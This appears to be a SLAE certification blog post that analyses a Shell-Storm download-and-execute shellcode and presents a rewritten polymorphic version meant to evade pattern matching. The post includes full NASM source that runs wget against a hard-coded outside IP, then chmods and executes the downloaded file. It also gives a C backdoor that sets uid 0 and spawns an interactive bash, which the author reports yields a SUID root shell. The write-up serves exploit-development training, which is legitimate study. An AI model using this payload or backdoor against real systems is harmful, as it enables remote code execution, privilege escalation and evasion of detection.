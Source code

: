 # Assignment 6: Download and Execute

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/

Student ID: SLAE-670

## Problem

- Take up 3 shellcodes from Shell-Storm and create polymorphic versions of them to beat pattern matching
- The polymorphic versions cannot be larger than 150% of the existing shellcode
- Bonus points for making it shorter in length than original

## Solution

In this post we are going to look at the Download and Execute shellcode avaiable at ![http://shell-storm.org/shellcode/files/shellcode-862.php](http://shell-storm.org/shellcode/files/shellcode-862.php "").

### Shellcode Analysis

Tracing the instruction set, we observe that the shellcode first creates a child process (a copy) of itself with the `fork()` system call. The child process is used to download the file that later on is executed by the parent process. Since a child process will return a Process ID of `0`, while the parent process will return a non-zero Process ID, the execution flow is able to determine which instruction set it should execute even though the processes are copies. If PID is zero, the program will go ahead and jump to the download section of the code, where it will use the `execve()` system call to execute `/usr/bin/wget 192.168.2.222//x`. 

While the child process is being executed, the parent process goes on to execute the `waitpid()` system call with PID equal to zero (child process). The  `waitpid()` system  call  suspends execution of the calling process until a child specified by PID argument has changed state. By default, `waitpid()` waits only for terminated children. So, the parent process waits for the download to finish and then goes on to execute the rest of the instructions. 

The parent processs will go on using the `chmod()` system call to execute `chmod 777` on the downloaded file, and then finally proceeds to execute the downloaded file with the `execve()` system call.

It is interesting to note that it was necessary to `fork()` a child in this case because `execve()` does not return execution back to the code that called it. Therefore, by using separate processes for downloading and executing, along with the `waitpid()` functionality, it was possible to execute `execve()` twice from the same shellcode.

### Polymorphic Shellcode

The technique used in the original shellcode sample is entirely replicated in the polymorphic version. Nevertheless, the instruction set is completely rewritten (except for constant strings, such as `/usr/bin/wget` that could of course be used as a fingerprint). Even though Using an encoder would potentially help to remediate the fingerprinting problem to some extent, the shellcode presented here does not include that functionality. It is rather made to be as short as possible.

### a6-dlexec.nasm
```nasm
; SLAE Assignment 6: Download Chmod Execute (morphed)
; http://shell-storm.org/shellcode/files/shellcode-862.php
; Original Shellcode Length:	108
; Morphed Shellcode Length:		96


global _start
section .text
_start:
	push byte 0x2 		; #define __NR_fork 2
	pop eax 			; pid_t fork(void);			--> in child returns 0
	int 0x80 			; make a child
	jz short download 	; if this is a child, download

zzz:
	push byte 0x7 		; #define __NR_waitpid 7
	pop eax 			; pid_t wait(int *status);
	int 0x80 			; wait for the child (download)

chmod:
	push byte 0xf 		; #define __NR_chmod 15
	pop eax 			; int chmod(const char *path, mode_t mode);
	push edx
	push byte 0x62		; b
	mov ebx, esp 		; *path -> b
	push word 0x9ed 	; 4755 (octal)
	pop ecx 			; mode = 4755 
	int 0x80 			; chmod

execve:
	push byte 0xb 		; #define __NR_execve 11
	pop eax 			; int execve(const char *filename, char *const argv[], char *const envp[]);
	push byte 0x62 		; b
	mov ebx, esp 		; *filename -> b
	push edx 			; NULL
	mov edx, esp  		; *envp[] -> 0
	push ebx 			; put filename on the stack
	mov ecx, esp		; *argv[] -> b\0
	int 0x80

download:
	push 0xb			; #define __NR_execve 11
	pop eax				; int execve(const char *filename, char *const argv[], char *const envp[]);
	cdq 				; *envp[] -> 0
	push edx
	push 0x622f3832		; b/82
	push 0x2e333532		; .352
	push 0x2e303231		; .021
	push 0x2e383831		; .881
	mov ecx, esp		; *argv[] -> 188.120.253.28/b
	push edx
	push 0x74			; t
	push 0x6567772f		; egw/
	push 0x6e69622f		; nib/
	push 0x7273752f		; rsu/
	mov ebx, esp		; *filename -> /usr/bin/wget
	push edx
	push ecx
	push ebx
	mov ecx, esp		
	int 0x80 			; download
```

Before we test if everything works correctly, we create a simple shell backdoor `b.c`, compile it, and upload it to our server.

### b.c
```c
#include <stdlib.h>
void main() {
	setuid(0);
	setgid(0);
	system("/bin/bash -i");
}
```

Let us go ahead and check if everything works as it should.

![alt text](https://github.com/adeptex/SLAE/blob/master/Assignment-6/dlexec/example.png "Example")

It looks like everything works as expected. The file is correctly downloaded, chmod'ed and executed, giving us a SUID root shell.

Now let's go on to check how the morphed version compares to the original shellcode.

![alt text](https://github.com/adeptex/SLAE/blob/master/Assignment-6/dlexec/length.png "Shellcode length")

Our morphed version is 96 bytes in length, which is of course 12 bytes shorter than the original 108 bytes. 




